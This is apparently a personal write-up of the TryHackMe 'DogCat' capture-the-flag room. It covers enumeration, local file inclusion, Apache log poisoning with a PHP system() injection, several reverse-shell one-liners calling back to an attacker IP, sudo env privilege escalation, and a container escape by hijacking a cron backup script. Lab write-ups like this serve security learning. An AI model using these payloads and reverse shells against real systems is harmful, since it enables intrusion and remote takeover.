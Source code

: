 ```yaml
---
title: DogCat TryHackMe -- Writeup
date: 2022-04-06
categories: [TryHackMe, Medium]
tags: [docker, priv-esc, linux, ctf, lfi]     # TAG names should always be lowercase
---
```


Exporting the ip, hate typing it over again.
`import ip=10.10.106.83`

### Enumeration
We got 2 open port, 22(ssh), 80(apache). fair enough lets see whats in 80

```bash
PORT   STATE SERVICE
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:B3:94:18:A1:5F (Unknown)
```

navigating to `http://10.10.106.83` give us this page, where we can click at either cat/dog.


![img](/assets/img/tryhackme/dogcat/dogcat_landing.png)

```bash
cat: http://10.10.106.83/?view=cat
dog: http://10.10.106.83/?view=dog
```

Looking at `?view=..` The first thing come to my mind is Local file inclusion (LFI). so i try including dog: `http://10.10.106.83/?view=../../../../etc/passwd` but urgh it complains only dogs/cats pic allowed. So now what i need todo is essentially read the index.php file to see what happend under the hood.
What i basically end up doing is converting the file to base64, parse it and then decode it to normal text.

`"?view=php://filter/read=convert.base64-encode/resource=./dog/../index"`

```php
 <?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```
Looking at the source, we know exactly what todo now. I tried again to include passwd file now i modify it to `'http://10.10.106.83/?view=./cat/../../../../etc/passwd&ext='`

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
Now what next lmao. I can include files but still not enough. i need Remote code Execution (rce). A simple google search helped me out i found this [link](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1).
Next i try reading `/var/log/apache2/access.log` to see if i can use log poisoning. AND BOOM I CAN. Now only left is crafting payload to get a shell.

First request. this allow us to use the `cmd` parameter later to execute any php code.
```bash
nc $ip 80
GET /<?php system($_GET['cmd']);?>
```
Next is searching php reverse shell, i use [this]() onliner shell. then urlencode it.

```php
php -r '$sock=fsockopen("<YOURIP>",<PORT>);exec("/bin/bash -i <&3 >&3 2>&3");'
php%20-r%20%27%24sock%3Dfsockopen(%22<YOURIP>%22%2C<PORT>)%3Bexec(%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```
Final payload
```
http://10.10.156.55/?view=./cat/../../../../var/log/apache2/access.log&ext=&cmd=php%20-r%20%27%24sock%3Dfsockopen(%2210.10.39.132%22%2C4444)%3Bexec(%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```

### Searching for flags.

```bash
flag1: can be found /var/www/html/flag.php THM{Th1s_1s_N0t_4_Catdog_*********}
flag2: can be found /var/www HM{LF1_t0_RC3_******}
```

### priv esc
```
User www-data may run the following commands on 005c9764143d:
    (root) NOPASSWD: /usr/bin/env
```
Well, thats kinda ez priv esc.
`sudo /usr/bin/env /bin/bash -p` Now we root <br>`flag3: can be found /root/ THM{D1ff3r3nt_3nv1ronments_*******}`

what... so where tf is flag4?.

### escaping container
So i figure it out, we're inside a container. Now our job is to somehow runaway from here.
Looking at the backup files in /opt/backup i notice something. the file backup.sh is older than backup.tar `probably some cron job on the host running the script` so what i did is replace the backup.sh content with a reverse shell hoping that the cron job run it. So i can get a shell on the host.

```bash
echo '#!/bin/bash' > backup.sh
echo '/bin/bash -i >& /dev/tcp/10.10.39.132/4445 0>&1' >> backup.sh
chmod +x backup.sh

attacker: nc -nlvp 4445
```
Oh nice it works<br> `flag4: THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_**************************}`

thanks for reading, i hope this helps :)
